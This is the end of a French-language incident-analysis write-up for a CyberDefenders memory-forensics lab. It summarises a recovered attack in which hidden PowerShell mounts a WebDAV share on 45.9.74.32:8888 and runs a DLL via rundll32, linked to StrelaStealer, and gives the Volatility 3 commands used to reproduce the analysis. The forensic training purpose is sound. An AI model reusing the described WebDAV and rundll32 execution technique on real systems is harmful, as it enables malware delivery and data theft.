Le dump capture une attaque en cours : PowerShell, lancé en fenêtre cachée par un lanceur éphémère sous le compte administrateur `Elon`, monte un partage WebDAV hébergé sur `45.9.74.32:8888` et exécute la DLL `3435.dll` avec `rundll32`. La technique (T1218.011) et l'infrastructure, associée à StrelaStealer, orientent vers un voleur d'informations déployé en seconde étape.

Ce lab m'a permis de pratiquer l'analyse de mémoire avec Volatility 3 (processus, lignes de commande, jetons d'accès, variables d'environnement), la corrélation avec le renseignement sur la menace (VirusTotal, MITRE ATT&CK) et la rédaction d'un rapport qui distingue les faits établis des hypothèses.

## 13. Annexe : reproduire l'analyse

```bash
# Préparation
sha256sum 192-Reveal.zip
unzip 192-Reveal.zip                  # mot de passe fourni par la plateforme
cd temp_extract_dir
sha256sum 192-Reveal.dmp && file 192-Reveal.dmp
chmod a-w 192-Reveal.dmp
mkdir -p ../outputs

# Système
vol -f 192-Reveal.dmp windows.info | tee ../outputs/info.txt

# Q1, Q2 — processus
vol -f 192-Reveal.dmp windows.pstree  > ../outputs/pstree.txt
vol -f 192-Reveal.dmp windows.pslist  > ../outputs/pslist.txt
vol -f 192-Reveal.dmp windows.cmdline > ../outputs/cmdline.txt
grep -E "07:00:0" ../outputs/pslist.txt

# Q3, Q4 — ligne de commande de PowerShell
vol -f 192-Reveal.dmp windows.cmdline --pid 3692 | tee ../outputs/cmdline_3692.txt

# Q6 — compte
vol -f 192-Reveal.dmp windows.getsids | grep "3692"
vol -f 192-Reveal.dmp windows.envars --pid 3692 | grep -i -E "USERNAME|USERPROFILE|COMPUTERNAME"

# Pour aller plus loin
vol -f 192-Reveal.dmp windows.psscan | grep -E "4120|3692"   # processus terminés
vol -f 192-Reveal.dmp windows.netscan | tee ../outputs/netscan.txt
```

**Structure du dossier du rapport**

```
labs/memory-forensics/cyberdefenders-reveal/
├── README.md
└── screenshots/
    ├── q00_preuve_hachages_dump.png
    ├── q00_windows_info.png
    ├── q01_pslist_commandes.png
    ├── q01_q02_powershell_pid3692_ppid4120.png
    ├── q03_cmdline_3692.png
    ├── q04_partage_davwwwroot.png
    ├── q05_mitre_t1218_011.png
    ├── q06_getsids_elon.png
    ├── q06_envars_elon.png
    ├── q07_virustotal_ip_relations.png
    └── q07_virustotal_familles.png
```

---

*Rapport rédigé à des fins pédagogiques à partir d'un lab CyberDefenders. Les noms et événements sont ceux d'un scénario fictif.*
